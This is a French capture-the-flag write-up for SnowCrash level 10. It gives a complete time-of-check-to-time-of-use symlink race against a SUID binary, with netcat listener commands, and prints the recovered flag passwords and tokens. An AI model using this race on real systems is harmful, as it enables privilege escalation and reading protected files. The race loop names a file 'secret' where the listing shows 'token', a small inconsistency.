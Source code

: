 # LEVEL 10

### Reconnaissance

En se connectant au level10, on a un binaire et un fichier token ou on a pas les droits de lecture dessus:

```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
```

En lancant le binaire, on voit qu'il attend un fichier et un client a qui se connecter:

```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

On peux téléchargé le binaire pour le reverse, sa nous permettra dans savoir plus dans son fonctionnement.

On voit 2 choses interessantes:

- Le port utilisé pour la connection (6969)
```
0x08048756      b87b8a0408     mov eax, str.Connecting_to__s:6969_.. ; .//level10.c:31 ; 0x8048a7b ; "Connecting to %s:6969 .. "
```
- L'utilisation de la fonction access
```
0x08048749      e892feffff     call sym.imp.access         ; int access(const char *path, int mode)
```

Essayons de faire fonctionné ce binaire

```
level10@SnowCrash:~$ echo 'testing' > /tmp/test1
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
level10@SnowCrash:~$ nc -l 6969 > /dev/pts/0 &
[1] 7697
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. testing
wrote file!
[1]+  Done                    nc -l 6969 > /dev/pts/0
```
Sa marche, maintenant intéressons nous a comment l'exploité ?

La fonction qui nous interesse (access) nous permet de faire une attaque de type : **Time-of-check to time-of-use (TOCTOU)**
https://samsclass.info/127/proj/E10.htm

Cette attaque joue sur le temps entre le moment ou le programme check l'acces (avec la fonction access) et le moment ou il ouvre le fichier:

```
	access (/tmp/flip) --> a ce moment la, il est link avec le fichier /tmp/public = on a l'access
	open(/tmp/flip...) --> a ce moment, il est link avec le fichier token, on a théoriquement pas l'acces mais le binaire dispose des droits SUID.
```

Ok, maintenant qu'on a compris comment sa fonctionne on passe a la pratique !

### Exploitation


On ouvre 2 connections ssh:
- la première pour nos commande
- la deuxième pour recevoir les infos avec nc.
	
- **1er terminal**
```
	$ echo "public" > /tmp/public		# creation fichier ou on a des droits (normal, on le creer)
	$ ln -sf /tmp/public /tmp/flip		# creation d'un lien symbolique
	Si on lance notre binaire avec /tmp/public ou /tmp/flip, on aura exactement la meme chose.
	
	while true; do ln -sf $(pwd)/secret /tmp/flip; ln -sf /tmp/public /tmp/flip; done &
	$ for i in {1..300}; do ./level10 /tmp/flip 127.0.0.1; done
```

- **2eme terminal**
```
	$ for i in {1..300}; do nc -l 6969; done
	[...]
	public
	.*( )*.
	.*( )*.
	public
	.*( )*.
	woupa2yuojeeaaed06riuj63c
	.*( )*.
	public
	.*( )*.
	public
	[...]
```

Et voila, le mot de passe pour l'user flag10 est: **woupa2yuojeeaaed06riuj63c**

*ps : le mot de passe fonctionne pour l'user flag11*
	
```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
level10@SnowCrash:~$ su flag11
Password: 
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
